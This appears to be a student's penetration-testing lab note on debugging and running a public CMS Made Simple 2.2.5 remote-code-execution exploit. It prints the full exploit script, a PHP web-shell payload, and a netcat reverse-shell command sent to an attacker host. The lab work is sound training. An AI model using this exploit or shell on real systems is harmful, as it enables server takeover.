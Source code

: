 15.2.4.1

# 15.2.4.1
## 15.2.4.1.1. Observe the error that is generated when running the exploit.
Here is the error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```


## 15.2.4.1.2. Attempt to troubleshoot the code and determine why the error occurs.

Add a print statement to see what is passed to the parse_csrf_token function. Here is the output:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
...
[+] String that is being split: https://192.168.214.44/admin?_sk_=d2ea2feb7eb09c65a41
...
```



## 15.2.4.1.3. Modify the exploit in order to avoid the error and run it against your dedicated Linux client.
Change the csrf_param variable
![379168bbe78d966fc5ec74ec04b07f05.png](:/6faa8dd31b4b45d382a61c9b16941bc1)

Here is the full code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ cat 44976_modified.py 
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://192.168.214.44/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "_sk_"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```


## 15.2.4.1.4. Verify that your exploit worked by attempting to execute the *whoami* command using the remote php shell.

Run the exploit:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
[*] Attempting to upload cmsmsrce.txt...
...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.214.44/uploads/shell.php
```

Validate the exploit by attaching to the php shell with curl
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=whoami
www-data
```


## 15.2.4.1.5. Attempt to obtain a fully interactive shell with this exploit.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```

Run a netcat cmd on the exploit to connect to our Kali machine.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=nc+-nv+192.168.119.214+4444+-e+/bin/bash
```

Notice we have a shell
![34f36b8c720d6bd92a09001c071088c0.png](:/33544a8b9eaa4d76aea449d6b0841fa2)


id: 4e7892246b2a4397bd4fabf7d34bbbb1
parent_id: 003e72cb4e5a4d4b8ff1242d35b08ebc
created_time: 2020-10-02T22:04:26.310Z
updated_time: 2020-10-05T07:17:36.873Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T22:04:26.310Z
user_updated_time: 2020-10-05T07:17:36.873Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1